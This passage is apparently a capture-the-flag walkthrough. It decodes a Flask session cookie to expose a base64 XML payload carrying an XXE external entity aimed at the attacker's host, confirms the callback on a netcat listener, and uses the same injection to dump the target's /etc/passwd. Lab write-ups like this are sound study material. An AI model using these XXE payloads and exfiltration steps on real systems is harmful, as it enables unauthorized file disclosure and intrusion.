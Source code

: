 ![Screen Shot 2021-06-04 at 01.13.42.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/54344B7B-A264-458E-B5AC-652DDCB42C51_2/Screen%20Shot%202021-06-04%20at%2001.13.42.png)

Let’s decode the session cookies.

```other
🔥\> flask-unsign -d -c .eJxFjsFuozAURX9lxHoWmJJKjZTFUGwIlZ0x-NngHciRnPhBmCnSpFT996HddHl1dc-57xHeR4z279GPIdpHQAVz9K5kqHRtlkmPxJwNfxtKe-mBpaqYMwck52Ut-8ndIMCuZrYYGGsgrpbuekwtcY8u8Y1WWgOxjQlYwni_6BVHy_xpKMQssW512GlA-GdjXPo8Cw2liSpDeqYkF6UXcq1TFXi8ZWoMyh6qAMX80G__eOE4rL_-ymROz-b4dlKZtMnT1IDILMk2nw91DFuP2cbPpXGVjNkE1Jszzl0zaatX9goF9j2ZW97ajhP7aNBXgmT5SbErR7vrRlI4NoOgy9f-i__JU94buhuNdo0rWCueF1GXLum0P1nEFqba61V--5XnHKubpY69xOKPe7DXQWFiqYx_y8Mh-vgZzbfLtLxG-_jjP6FIhSg.YLnioQ.OXlvxUfR3iWtvtgeBD0f1nV70iQ
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMC0tPjwhRE9DVFlQRSBmb28gWzwhRU5USVRZIGRlbW9fdXNlciBTWVNURU0gImh0dHA6Ly8xMC4xMC4xNC4xMDYiPiBdPjwhLS0gLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPiZkZW1vX3VzZXI7PC91c2VybmFtZT4KICAgICAgICA8aXNfYWRtaW4+MDwvaXNfYWRtaW4+CiAgICA8L2RhdGE+Cjwvcm9vdD4=', 'points': 0}

🔥\> echo -n PCEtLSBBUEkgVmVyc2lvbiAxLjAuMC0tPjwhRE9DVFlQRSBmb28gWzwhRU5USVRZIGRlbW9fdXNlciBTWVNURU0gImh0dHA6Ly8xMC4xMC4xNC4xMDYiPiBdPjwhLS0gLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPiZkZW1vX3VzZXI7PC91c2VybmFtZT4KICAgICAgICA8aXNfYWRtaW4+MDwvaXNfYWRtaW4+CiAgICA8L2RhdGE+Cjwvcm9vdD4= | base64 -d
<!-- API Version 1.0.0--><!DOCTYPE foo [<!ENTITY demo_user SYSTEM "http://10.10.14.106"> ]><!-- -->
<root>
    <data>
        <username>&demo_user;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

As you can see our injection is in version field. Once we forward it to server (2nd time), it gets parsed and we get a HTTP hit on our netcat listener. Let’s forward that second request and check our listener.

![Screen Shot 2021-06-04 at 01.17.20.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/C60051C8-D5FE-4BCD-A9A2-8BBC7CD4080E_2/Screen%20Shot%202021-06-04%20at%2001.17.20.png)

Check Netcat listener.

```shell
🔥\> nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.106] from (UNKNOWN) [10.10.10.243] 36614
GET / HTTP/1.0
Host: 10.10.14.106
Accept-Encoding: gzip
```

As you can see got the hit on our port 80. Let’s read the passwd file with same technique.

![Screen Shot 2021-06-04 at 01.25.07.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/8637991D-CDF1-4DB7-B2E1-6675AC8567ED_2/Screen%20Shot%202021-06-04%20at%2001.25.07.png)

This above request will read the passwd file. Check the browser and view page source.

```html
<div class="wrap cf">
    <h1 class="projTitle" id="welcome">Welcome, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```